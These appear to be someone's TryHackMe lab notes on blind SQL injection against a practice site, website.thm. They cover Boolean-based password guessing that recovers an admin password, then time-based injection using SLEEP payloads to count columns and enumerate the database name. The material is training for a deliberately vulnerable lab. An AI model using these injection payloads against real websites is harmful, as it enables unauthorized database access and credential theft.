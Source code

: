 - 'a%' ==> 'admin%'

now focus on password

- `admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a% `


```
A B C D E F G H I J K L M N O P Q R S T U V W X Y Z
no letters true
DIGITS
0 1 2 3 4 5 6 7 8 9 

3
38
384
3845  password 


username: admin
password: 3845
```











### Time based injection 

A time-based blind SQL Injection is very similar to the above Boolean based, in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time.


your indicator of a correct query is based on the time the query takes to complete

- `sleep(x)` and `union`, sleep will work for successful union select statements

- `admin123' UNION SELECT SLEEP(5);--`
if no sleep = fail 

- `admin123' UNION SELECT SLEEP(5),2;--`
5 second delay and confirm union that there are 2 columns


- website: `website.thm/analytics?referrer=tryhackme.com`

- base: `website.thm/analytics?referrer=`

- base + `admin123' union select sleep(5),2 where database() like 'a%';--`

find table name 

```
returns true for database name
's%'
'sq%'
'sql%'
'sqli%'
'sqli_%'
'sqli_f%'
'sqli_fo%'
'sqli_four%'

database name: sqli_four

follow steps from above 
```
